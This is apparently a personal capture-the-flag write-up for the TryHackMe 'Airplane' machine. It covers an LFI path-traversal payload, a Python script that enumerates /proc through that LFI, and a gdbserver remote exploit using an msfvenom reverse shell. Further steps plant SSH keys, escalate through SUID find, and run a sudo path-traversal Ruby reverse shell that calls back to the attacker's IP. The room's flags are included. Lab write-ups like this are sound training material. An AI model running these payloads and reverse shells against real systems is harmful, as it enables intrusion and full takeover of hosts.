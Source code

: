 #airplane #thm #medium #LFI #/proc #gdbserver #SUID #find

#### Ports
-> commands : 
	`rustscan -a 10.10.107.188`
	`nmap -p 22,6048,8000 10.10.107.188 -T4 -A -oN nmap.txt`
```
PORT     STATE SERVICE  REASON
22/tcp   open  ssh      syn-ack
6048/tcp open  x11      syn-ack
8000/tcp open  http-alt syn-ack
```

#### Directory Enumeration
-> commands :
	`feroxbuster -u http://10.10.107.188:8000/ -x txt,php,html,zip,pcap`
```
http://airplane.thm:8000/?page=index.html
```
-> found this only , not other dirs.

#### LFI
-> URL : http://airplane.thm:8000/?page=index.html
-> Payload : http://airplane.thm:8000/?page=/../../../../etc/passwd
-> got */etc/passwd* file
```
carlos:x:1000:1000:carlos,,,:/home/carlos:/bin/bash
hudson:x:1001:1001::/home/hudson:/bin/bash
```

-> tried accessing a lot of files but no results

##### /proc part
-> then got introduced with a new concept .. 
	*/proc/< proc number>/cmdline* -> file
-> we can access any running process if we know the process number 
-> so we can run a python script to generate 1 to n numbers and send a get request , if we get the 200 on a perticular request it means that process is running , we might get somthing in processes , if we are unable to find nothing

-> python script 
```
import requests  
  
def read_file(base_url, path):  
    file_url = f"{base_url}/?page=../../../../{path}"  
    try:  
        response = requests.get(file_url)  
        if response.status_code == 200:  
            return response.text  
        else:  
            return None  
    except Exception as e:  
        print(f"Error reading {path}: {e}")  
        return None  
  
def find_pid_by_port(base_url, port):  
    for pid in range(1, 5000):  # Adjust the range based on the expected number of PIDs  
        cmdline_path = f"proc/{pid}/cmdline"  
        cmdline = read_file(base_url, cmdline_path)  
        if cmdline:  
            if str(port) in cmdline:  
                return pid  
    return None  
  
# Example usage  
base_url = 'http://airplane.thm:8000'  
port = '6048'  
pid = find_pid_by_port(base_url, port)  
if pid:  
    cmdline = read_file(base_url, f"proc/{pid}/cmdline")  
    status = read_file(base_url, f"proc/{pid}/status")  
    print(f'PID using port {port}: {pid}')  
    print(f'Command line: {cmdline}')  
    print(f'Status: {status}')  
else:  
    print(f'No process found using port {port}')
```

-> found a process name ->
	-> /proc/530/cmdline 
	-> it was running `/usr/bin/gdbserver0.0.0.0:6048airplane`

#### Gaining Shell as hudson
##### GdbServer Vulnerability 

-> enumerated -> found hacktrickz article 
```
# Trick shared by @B1n4rySh4d0w
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.17.127.143 LPORT=4444 PrependFork=true -f elf -o binary.elf

chmod +x binary.elf

gdb binary.elf

# Set remote debuger target
target extended-remote 10.10.82.135:6048

# Upload elf file
remote put binary.elf /tmp/binary.elf

# Set remote executable file
set remote exec-file /tmp/binary.elf

# Execute reverse shell executable
run

# You should get your reverse-shell
```

ran these commands and got reverse shell !!

#### Getting better Shell

-> `ssh-keygen -t rsa -f rghx -b 4096`
-> got two files rghx & rghx.pub 
-> copied rghx.pub in ~/.ssh/authorized_keys *{in victim's shell}*
-> `chmod 600 rghx`
-> `ssh -i rghx hudson@airplane.thm`

#### Post Exploitation Enumeration

-> linpeas
-> `/usr/bin/find` -> SUID set for carlos user

#### Shell as Carlos

-> `/usr/bin/find /home/carlos -name "user.txt" -exec cat /home/carlos/user.txt \;` -> to read user.txt
-> `/usr/bin/find /home/carlos -name "user.txt" -exec /bin/bash -p \;`

-> got perms to access & edit carlos files
-> did the same ssh generation and replacing ssh keys to 
	/home/carlos/.ssh/authorized_keys
-> `chmod 644 authorized_keys` --> important step

-> `ssh -i id_rsa carlos@IP`

###### user.txt : ***eebfca2ca5a2b8a56c46c781aeea7562***

#### Privilege Escalations

`sudo -l`
```
(ALL) NOPASSWD: /usr/bin/ruby /root/*.rb
```

-> here , after thinking for a minute i though to do path escaping 
-> so i wrote a ruby reverse shell {thankx to chat GPT}

`shell.rb`
```ruby
require 'socket'

# Exit if the process is a child
exit if fork

# Create a TCP socket connection to the specified address and port
c = TCPSocket.new("10.17.127.143", "9002")

# Continuously read commands from the socket
loop do
  # Read a line from the socket and remove the trailing newline character
  command = c.gets.chomp
  
  # Exit if the command is "exit"
  break if command == "exit"
  
  # Change directory if the command starts with "cd"
  if command =~ /cd (.+)/i
    begin
      Dir.chdir($1)
    rescue => e
      c.puts "failed to change directory: #{e.message}"
    end
  else
    # Execute the command and send the output to the socket
    begin
      IO.popen(command, 'r') do |io|
        c.print io.read
      end
    rescue => e
      c.puts "failed: #{e.message}"
    end
  end
end
```

-> put it in /tmp/shell.rb
-> `sudo /usr/bin/ruby /root/../tmp/shell.rb`
-> Boom!! Got reverse Shell as root !

###### root.txt : ***190dcbeb688ce5fe029f26a1e5fce002***
---------

